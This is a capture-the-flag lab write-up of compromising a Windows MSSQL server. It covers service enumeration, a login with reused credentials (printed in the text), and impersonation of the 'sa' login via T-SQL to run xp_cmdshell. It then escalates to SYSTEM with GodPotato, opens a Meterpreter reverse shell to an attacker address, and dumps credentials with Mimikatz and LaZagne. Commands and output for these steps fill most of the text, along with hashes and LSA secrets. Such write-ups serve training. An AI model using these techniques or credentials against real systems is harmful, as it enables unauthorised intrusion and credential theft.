





I will start by enumerating open services via NMAP tool on the machine:

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads]
└─# nmap 192.168.210.15   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-16 18:07 CEST
Nmap scan report for 192.168.210.15
Host is up (0.018s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
1433/tcp open  ms-sql-s

Nmap done: 1 IP address (1 host up) scanned in 6.16 seconds
```

Next I would move forward with specific service Enumerations.

* * *

## SMB:

Running a footprint of the Samba service on the machine shows as this is the SQL server(as we already identified) but we can see as well that this machine is a old version of windows running build 17763 which could be vulnerable to latest PE exploits like Printspooler, Printspoofer and PrintNightmare.

```
┌──(root㉿kali-linux)-[/home/millycash/Downloads/ZEPHYR]
└─# enum4linux-ng -A 192.168.210.15
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.210.15
[*] Username ......... ''
[*] Random Username .. 'ikutawii'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 =======================================
|    Listener Scan on 192.168.210.15    |
 =======================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: timed out
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: timed out
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[-] Could not connect to SMB over NetBIOS on 139/tcp: timed out

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.210.15    |
 =============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ===========================================
|    SMB Dialect Check on 192.168.210.15    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:
  SMB 1.0: false
  SMB 2.02: true
  SMB 2.1: true
  SMB 3.0: true
  SMB 3.1.1: true
Preferred dialect: SMB 3.0
SMB1 only: false
SMB signing required: false

 =============================================================
|    Domain Information via SMB session for 192.168.210.15    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: ZPH-SVRSQL01
NetBIOS domain name: ZSM
DNS domain: zsm.local
FQDN: ZPH-SVRSQL01.zsm.local
Derived membership: domain member
Derived domain: ZSM

 ===========================================
|    RPC Session Check on 192.168.210.15    |
 ===========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 =================================================
|    OS Information via RPC for 192.168.210.15    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016
OS version: '10.0'
OS release: '1809'
OS build: '17763'
Native OS: not supported
Native LAN manager: not supported
Platform id: null
Server type: null
Server type string: null

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 24.86 seconds
```

* * *

## Back on track:

Here I had to reset the lab cause I had big troubled to login to MSQL via this machine, but eventually now the MSSQL port works!

Next trying out those Zabbix credentials from Zabbix server show that their are re-used in the SQL server on ZSM.local:

```
msf6 auxiliary(scanner/mssql/mssql_login) > run

[*] 192.168.210.15:1433   - 192.168.210.15:1433 - MSSQL - Starting authentication scanner.
[!] 192.168.210.15:1433   - No active DB -- Credential data will not be saved!
[+] 192.168.210.15:1433   - 192.168.210.15:1433 - Login Successful: WORKSTATION\zabbix:rDhHbBEfh35sMbkY
[*] 192.168.210.15:1433   - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/mssql/mssql_login) >
```

I don't see anything strange yet:

```
SQL (zabbix  guest@master)> enum_db
name           is_trustworthy_on   
------------   -----------------   
master                         0   

tempdb                         0   

model                          0   

msdb                           1   

zabbix_hosts                   0   

SQL (zabbix  guest@master)> enum_links
SRV_NAME       SRV_PROVIDERNAME   SRV_PRODUCT   SRV_DATASOURCE   SRV_PROVIDERSTRING   SRV_LOCATION   SRV_CAT   
------------   ----------------   -----------   --------------   ------------------   ------------   -------   
ZPH-SVRSQL01   SQLNCLI            SQL Server    ZPH-SVRSQL01     NULL                 NULL           NULL      

Linked Server   Local Login   Is Self Mapping   Remote Login   
-------------   -----------   ---------------   ------------   
SQL (zabbix  guest@master)> enum_logins
name     type_desc   is_disabled   sysadmin   securityadmin   serveradmin   setupadmin   processadmin   diskadmin   dbcreator   bulkadmin   
------   ---------   -----------   --------   -------------   -----------   ----------   ------------   ---------   ---------   ---------   
sa       SQL_LOGIN             0          1               0             0            0              0           0           0           0   

zabbix   SQL_LOGIN             0          0               0             0            0              0           0           0           0   

SQL (zabbix  guest@master)> enum_impersonate
execute as   database   permission_name   state_desc   grantee   grantor   
----------   --------   ---------------   ----------   -------   -------   
b'LOGIN'     b''        IMPERSONATE       GRANT        zabbix    sa        

SQL (zabbix  zabbix@zabbix_hosts)>
```

Running a MSSQL enumeration module via Metasploit shows like only Zabbix and SA are available, a Zabbix Host custom DB is available and no dirtree SP or XP\_CMDshell are available on the machine:

```
msf6 auxiliary(admin/mssql/mssql_enum) > run
[*] Running module against 192.168.210.15

[*] 192.168.210.15:1433 - Running MS SQL Server Enumeration...
[*] 192.168.210.15:1433 - Version:
[*]	Microsoft SQL Server 2019 (RTM) - 15.0.2000.5 (X64) 
[*]		Sep 24 2019 13:48:23 
[*]		Copyright (C) 2019 Microsoft Corporation
[*]		Express Edition (64-bit) on Windows Server 2019 Standard 10.0 <X64> (Build 17763: ) (Hypervisor)
[*] 192.168.210.15:1433 - Configuration Parameters:
[*] 192.168.210.15:1433 - 	C2 Audit Mode is Not Enabled
[*] 192.168.210.15:1433 - 	xp_cmdshell is Not Enabled
[*] 192.168.210.15:1433 - 	remote access is Enabled
[*] 192.168.210.15:1433 - 	allow updates is Not Enabled
[*] 192.168.210.15:1433 - 	Database Mail XPs is Not Enabled
[*] 192.168.210.15:1433 - 	Ole Automation Procedures are Not Enabled
[*] 192.168.210.15:1433 - Databases on the server:
[*] 192.168.210.15:1433 - 	Database name:master
[*] 192.168.210.15:1433 - 	Database Files for master:
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\master.mdf
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\mastlog.ldf
[*] 192.168.210.15:1433 - 	Database name:tempdb
[*] 192.168.210.15:1433 - 	Database Files for tempdb:
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\tempdb.mdf
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\templog.ldf
[*] 192.168.210.15:1433 - 	Database name:model
[*] 192.168.210.15:1433 - 	Database Files for model:
[*] 192.168.210.15:1433 - 	Database name:msdb
[*] 192.168.210.15:1433 - 	Database Files for msdb:
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\MSDBData.mdf
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\MSDBLog.ldf
[*] 192.168.210.15:1433 - 	Database name:zabbix_hosts
[*] 192.168.210.15:1433 - 	Database Files for zabbix_hosts:
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\zabbix_hosts.mdf
[*] 192.168.210.15:1433 - 		C:\Program Files\Microsoft SQL Server\MSSQL15.MSSQLSERVER\MSSQL\DATA\zabbix_hosts_log.ldf
[*] 192.168.210.15:1433 - System Logins on this Server:
[*] 192.168.210.15:1433 - 	sa
[*] 192.168.210.15:1433 - 	zabbix
[*] 192.168.210.15:1433 - Disabled Accounts:
[*] 192.168.210.15:1433 - 	No Disabled Logins Found
[*] 192.168.210.15:1433 - No Accounts Policy is set for:
[*] 192.168.210.15:1433 - 	All System Accounts have the Windows Account Policy Applied to them.
[*] 192.168.210.15:1433 - Password Expiration is not checked for:
[*] 192.168.210.15:1433 - 	sa
[*] 192.168.210.15:1433 - 	zabbix
[*] 192.168.210.15:1433 - System Admin Logins on this Server:
[*] 192.168.210.15:1433 - 	sa
[*] 192.168.210.15:1433 - Windows Logins on this Server:
[*] 192.168.210.15:1433 - 	No Windows logins found!
[*] 192.168.210.15:1433 - Windows Groups that can logins on this Server:
[*] 192.168.210.15:1433 - 	No Windows Groups where found with permission to login to system.
[*] 192.168.210.15:1433 - Accounts with Username and Password being the same:
[*] 192.168.210.15:1433 - 	No Account with its password being the same as its username was found.
[*] 192.168.210.15:1433 - Accounts with empty password:
[*] 192.168.210.15:1433 - 	No Accounts with empty passwords where found.
[*] 192.168.210.15:1433 - Stored Procedures with Public Execute Permission found:
[*] 192.168.210.15:1433 - 	sp_replsetsyncstatus
[*] 192.168.210.15:1433 - 	sp_replcounters
[*] 192.168.210.15:1433 - 	sp_replsendtoqueue
[*] 192.168.210.15:1433 - 	sp_resyncexecutesql
[*] 192.168.210.15:1433 - 	sp_prepexecrpc
[*] 192.168.210.15:1433 - 	sp_repltrans
[*] 192.168.210.15:1433 - 	sp_xml_preparedocument
[*] 192.168.210.15:1433 - 	xp_qv
[*] 192.168.210.15:1433 - 	xp_getnetname
[*] 192.168.210.15:1433 - 	sp_releaseschemalock
[*] 192.168.210.15:1433 - 	sp_refreshview
[*] 192.168.210.15:1433 - 	sp_replcmds
[*] 192.168.210.15:1433 - 	sp_unprepare
[*] 192.168.210.15:1433 - 	sp_resyncprepare
[*] 192.168.210.15:1433 - 	sp_createorphan
[*] 192.168.210.15:1433 - 	sp_replwritetovarbin
[*] 192.168.210.15:1433 - 	sp_replsetoriginator
[*] 192.168.210.15:1433 - 	sp_xml_removedocument
[*] 192.168.210.15:1433 - 	sp_repldone
[*] 192.168.210.15:1433 - 	sp_reset_connection
[*] 192.168.210.15:1433 - 	xp_fixeddrives
[*] 192.168.210.15:1433 - 	sp_getschemalock
[*] 192.168.210.15:1433 - 	sp_prepexec
[*] 192.168.210.15:1433 - 	xp_revokelogin
[*] 192.168.210.15:1433 - 	sp_execute_external_script
[*] 192.168.210.15:1433 - 	sp_resyncuniquetable
[*] 192.168.210.15:1433 - 	sp_replflush
[*] 192.168.210.15:1433 - 	sp_resyncexecute
[*] 192.168.210.15:1433 - 	xp_grantlogin
[*] 192.168.210.15:1433 - 	sp_droporphans
[*] 192.168.210.15:1433 - 	xp_regread
[*] 192.168.210.15:1433 - 	sp_getbindtoken
[*] 192.168.210.15:1433 - 	sp_replincrementlsn
[*] 192.168.210.15:1433 - Instances found on this server:
[*] 192.168.210.15:1433 - Default Server Instance SQL Server Service is running under the privilege of:
[*] 192.168.210.15:1433 - 	NT SERVICE\MSSQLSERVER
[*] Auxiliary module execution completed
```

Now I tried to configure XP\_CMDShell and it's not working unfortunately. I don't see a XP\_Dirtree which means we can't just sniff a NTLM hash but I see that execute external sript is available and that might be used togehter with example Python get a working RCE.

I wll try to check for Impersonation is alloved on zabbix:

```
# Find users you can impersonate
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
# Check if the user "sa" or any other high privileged user is mentioned

# Impersonate sa user
EXECUTE AS LOGIN = 'sa'
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

And seems like we can impersonate as sa. And seems like we have impersonates as sa:



And now we can enable advanced features:



And now running a simple whoami via XP\_CMDSHELL works flawlessly:



Now we can grab a powershel base64 encoded command and invoke a reverse shell into it!.



And now we are in!

```
PS C:\> whoami
nt service\mssqlserver
PS C:\> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : 
   Link-local IPv6 Address . . . . . : fe80::92c2:f44b:9132:3059%4
   IPv4 Address. . . . . . . . . . . : 192.168.210.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.210.1
PS C:\> hostname
ZPH-SVRSQL01
```

Now we need to elevate our self and to do so I will convert this session to Meterpreter but I's not working so looking around apparently exist called [GodPotato](https://github.com/BeichenDream/GodPotato/releases/tag/V1.20). And what is nice of this new tool compared to old Shaprefspotato, Printspoofer and similar you don't need NC to get a revshell as NT system you can just send commands withing same session.

```
PS C:\temp> ./god.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140734721294336
[*] DispatchTable: 0x140734723600496
[*] UseProtseqFunction: 0x140734722976672
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\ad50787e-96d5-412a-8bbb-e28b826a3f31\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000d402-0bcc-ffff-1154-47793017d6d7
[*] DCOM obj OXID: 0x246c03df6fb34f6
[*] DCOM obj OID: 0xc3b8d49b35945cad
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 756 Token:0x932  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3336
nt authority\system
PS C:\temp>
```

We can see that commands get executed as NT system which means we should be able to call a MSF reverse shell as NT System.

```
PS C:\temp> ./god.exe -cmd "C:\temp\reverse.exe"


msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.5:445 
[*] Sending stage (200774 bytes) to 10.10.110.35
[*] Meterpreter session 2 opened (10.10.14.5:445 -> 10.10.110.35:7288) at 2023-09-16 19:53:34 +0200

meterpreter > sessions 
Usage: sessions <id>

Interact with a different session Id.
This works the same as calling this from the MSF shell: sessions -i <session id>

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

* * *

## POST Exploitation:

I will start by firing up Mimikatz and dumping all the good stuff\*:

```
meterpreter > creds_all 
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  NTLM                              SHA1
--------       ------  ----                              ----
ZPH-SVRSQL01$  ZSM     ecf68b5e132ca80e6864215d5fcbba03  bf1dfc13aaccdc957bb5246c19610667a88bfd60

wdigest credentials
===================

Username       Domain  Password
--------       ------  --------
(null)         (null)  (null)
ZPH-SVRSQL01$  ZSM     (null)

kerberos credentials
====================

Username       Domain     Password
--------       ------     --------
(null)         (null)     (null)
ZPH-SVRSQL01$  ZSM.LOCAL  (null)
ZPH-SVRSQL01$  zsm.local  7c c0 81 9a 46 fa 0a fd b7 83 fd 40 c1 f3 4e e9 06 e8 3e 11 b9 58 96 49 a8 1f 3d 90 50 ed 3c e7 4e 3c 71 07 ea 98 3a 9f f2 5b c2 2
                          8 c6 32 cb af 31 bb a0 b4 ad c0 79 9d 79 2c 2e 62 51 af 42 a8 df 35 60 a8 81 22 19 4d 10 a9 39 60 89 84 34 6b 80 e1 0a d0 ed 0d cd
                           94 7c 75 c0 8d ed 68 c7 09 a6 e3 c9 a4 40 3f cb 76 5d 74 14 2b 3e 56 b5 23 e1 d5 1d 30 e7 ca d3 5a f4 43 57 21 99 28 bb 0b 16 50
                          b5 54 33 8a c7 01 36 f7 d4 bd d5 fa 5a d3 94 9d b4 94 95 9e 05 dd eb d8 6e 90 25 e4 28 eb da dd f1 01 4d 71 a2 9d 67 41 f6 bd e0 0
                          d 4f 7e 33 37 48 4b c3 6d c3 dd d6 18 6f 06 f9 6d cf 3a 40 64 d3 7d 29 3b 16 09 92 b3 4f 52 f0 7f b6 0c b0 61 d9 dd dc 0d 69 08 03
                           0b 41 84 b6 8c ae 0f cd 1f 5a 4a 1f c7 e9 28 86 6f e6 af 4f a3 8b 83
zph-svrsql01$  ZSM.LOCAL  (null)
```

next moving to SAM we can find the local Administrators account:

```
meterpreter > lsa_dump_sam 
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ZPH-SVRSQL01
SysKey : 4d59fba7e66ea9e9bbbf401f0dac8944
Local SID : S-1-5-21-3661448643-4024444024-3029224317

SAMKey : cb413ee436eefcedd9ebf4dcbe977493

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: 7ac325190bb999ef4ad73b0b67e8e33c
    lm  - 0: ef5238999ecf7c20ac5013ae2d6d73b4
    ntlm- 0: 7ac325190bb999ef4ad73b0b67e8e33c
    ntlm- 1: 316c5ae8a7b5dfce4a5604d17d9e976e

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 31d67af9312e5d62b2f0098bf46276bb

* Primary:Kerberos-Newer-Keys *
    Default Salt : ZPH-SVRSQL01.ZSM.LOCALAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 01b460a79ec85a8f2a83d10c95115df79edc18ee29f07e53fcee727ed4e9f079
      aes128_hmac       (4096) : 1250aab85c626efddbfe4628c6ac8314
      des_cbc_md5       (4096) : 6efeae80167398fd
    OldCredentials
      aes256_hmac       (4096) : 77df6f7b625dd529a07afe3077b0fdd707c3a1d249bd753f426d118ea2bd3555
      aes128_hmac       (4096) : 462ecef067feeaeed17017c70678e4de
      des_cbc_md5       (4096) : a79bef766b62ada2

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : ZPH-SVRSQL01.ZSM.LOCALAdministrator
    Credentials
      des_cbc_md5       : 6efeae80167398fd
    OldCredentials
      des_cbc_md5       : a79bef766b62ada2


RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
```

And lastly the secrets;

```
meterpreter > lsa_dump_secrets 
[+] Running as SYSTEM
[*] Dumping LSA secrets
Domain : ZPH-SVRSQL01
SysKey : 4d59fba7e66ea9e9bbbf401f0dac8944

Local name : ZPH-SVRSQL01 ( S-1-5-21-3661448643-4024444024-3029224317 )
Domain name : ZSM ( S-1-5-21-2734290894-461713716-141835440 )
Domain FQDN : zsm.local

Policy subsystem is : 1.18
LSA Key(s) : 1, default {83d332ec-44af-f50f-ca06-46eb8877cdb7}
  [00] {83d332ec-44af-f50f-ca06-46eb8877cdb7} 650180040a35e65d5f10399ea25ad59bf23460c851421dc43afb90527be0bd5d

Secret  : $MACHINE.ACC
cur/hex : 7c c0 81 9a 46 fa 0a fd b7 83 fd 40 c1 f3 4e e9 06 e8 3e 11 b9 58 96 49 a8 1f 3d 90 50 ed 3c e7 4e 3c 71 07 ea 98 3a 9f f2 5b c2 28 c6 32 cb af 31 bb a0 b4 ad c0 79 9d 79 2c 2e 62 51 af 42 a8 df 35 60 a8 81 22 19 4d 10 a9 39 60 89 84 34 6b 80 e1 0a d0 ed 0d cd 94 7c 75 c0 8d ed 68 c7 09 a6 e3 c9 a4 40 3f cb 76 5d 74 14 2b 3e 56 b5 23 e1 d5 1d 30 e7 ca d3 5a f4 43 57 21 99 28 bb 0b 16 50 b5 54 33 8a c7 01 36 f7 d4 bd d5 fa 5a d3 94 9d b4 94 95 9e 05 dd eb d8 6e 90 25 e4 28 eb da dd f1 01 4d 71 a2 9d 67 41 f6 bd e0 0d 4f 7e 33 37 48 4b c3 6d c3 dd d6 18 6f 06 f9 6d cf 3a 40 64 d3 7d 29 3b 16 09 92 b3 4f 52 f0 7f b6 0c b0 61 d9 dd dc 0d 69 08 03 0b 41 84 b6 8c ae 0f cd 1f 5a 4a 1f c7 e9 28 86 6f e6 af 4f a3 8b 83 
    NTLM:ecf68b5e132ca80e6864215d5fcbba03
    SHA1:bf1dfc13aaccdc957bb5246c19610667a88bfd60
old/hex : 93 7d 93 6e 2b e4 84 74 23 c9 73 53 84 41 31 0e c0 3c da 89 cc d0 38 06 9f c8 5c aa de bb 54 7c f0 e8 57 bb 43 9f ee 67 e4 b5 06 7e fe e6 c5 38 4c 38 30 d2 31 23 1c 22 8b 53 7b 19 0b 22 ab 02 34 9f 77 dc 08 35 79 1f 32 63 2d 29 02 41 c8 4d ba c7 31 e3 fd 41 e1 15 f0 b2 9b ad ca 73 87 76 bc 4d bb 30 56 ec 61 45 70 9c 24 60 15 be 48 2c ed 66 2a 12 54 87 b2 df 3f f9 2d 39 bb e5 d7 d5 8c 53 d6 08 22 d7 e0 5e 84 50 d4 03 1a eb 93 4b 0c a0 22 ba 9e b6 55 f3 6b 92 7b 8c da f1 67 2c 74 9d 04 31 a7 31 b1 17 0d 9f c7 72 33 1d 41 cb 3e ee 7b d3 fb 41 f0 40 31 85 ac f4 c6 3b 9c dc c3 a1 90 fd a5 fa 05 f5 c3 36 76 57 01 17 64 50 df 17 9c 32 d3 26 ec 43 5c e0 4a 74 f8 4f 53 60 cc 38 39 bc d6 cb f5 3e 3e 0c 0e 01 64 af f9 d7 
    NTLM:8df736225aa00144bbca3e5b1a62b49f
    SHA1:05641edd89d58fdc9819eb910da44b2b228c8095

Secret  : DPAPI_SYSTEM
cur/hex : 01 00 00 00 e5 b0 70 b6 fc 2a f9 24 d7 d7 be 1b 28 71 f1 0d 64 45 3c ba 6d 32 6a 8d 8b 29 a1 e2 db 89 d4 e9 d1 b6 df 70 35 db 2a 76 
    full: e5b070b6fc2af924d7d7be1b2871f10d64453cba6d326a8d8b29a1e2db89d4e9d1b6df7035db2a76
    m/u : e5b070b6fc2af924d7d7be1b2871f10d64453cba / 6d326a8d8b29a1e2db89d4e9d1b6df7035db2a76
old/hex : 01 00 00 00 ad 3b a0 97 8e c2 d3 3b cf ce fd 8d ab b6 af d2 2a 00 de 26 1c 4c 8d 03 02 42 5a 3d 9c f3 95 ca e4 9c e3 c8 bb 38 3c eb 
    full: ad3ba0978ec2d33bcfcefd8dabb6afd22a00de261c4c8d0302425a3d9cf395cae49ce3c8bb383ceb
    m/u : ad3ba0978ec2d33bcfcefd8dabb6afd22a00de26 / 1c4c8d0302425a3d9cf395cae49ce3c8bb383ceb

Secret  : NL$KM
cur/hex : 02 92 96 34 89 68 37 22 22 dd 4f bd bd b3 11 35 bd 5a d2 7a 27 af 48 23 f2 ca 71 f4 a0 6a b7 c4 2e 84 50 63 df 17 01 4f ea 92 50 c4 dd 9b 86 d2 48 3e cc 80 5e b5 30 96 7a dd 48 cb cc bf e1 e3 
old/hex : 02 92 96 34 89 68 37 22 22 dd 4f bd bd b3 11 35 bd 5a d2 7a 27 af 48 23 f2 ca 71 f4 a0 6a b7 c4 2e 84 50 63 df 17 01 4f ea 92 50 c4 dd 9b 86 d2 48 3e cc 80 5e b5 30 96 7a dd 48 cb cc bf e1 e3 

Secret  : _SC_MSSQLSERVER / service 'MSSQLSERVER' with username : NT SERVICE\MSSQLSERVER

Secret  : _SC_SQLTELEMETRY / service 'SQLTELEMETRY' with username : NT Service\SQLTELEMETRY
```

Next we can get another flag from Administrator's desktop:

```
meterpreter > ls Desktop
Listing: Desktop
================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  282   fil   2022-10-20 08:45:51 +0200  desktop.ini
100666/rw-rw-rw-  32    fil   2022-10-21 16:59:54 +0200  flag.txt

meterpreter > cat Desktop\\flag.txt 
ZEPHYR{SQLi_2_Imp3rs0n4710n_fun}meterpreter >
```

Now seems like we can't find any other flag because no other users are available here so far. I will run Lazagne and check for possible other stuff:

```
C:\Temp>lazagne.exe all
lazagne.exe all


|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

[+] System masterkey decrypted for dc4e054e-775f-43be-9690-1f86fbde67c9
[+] System masterkey decrypted for e6d976bd-9d76-4bdb-a4a3-63f24f8ac717
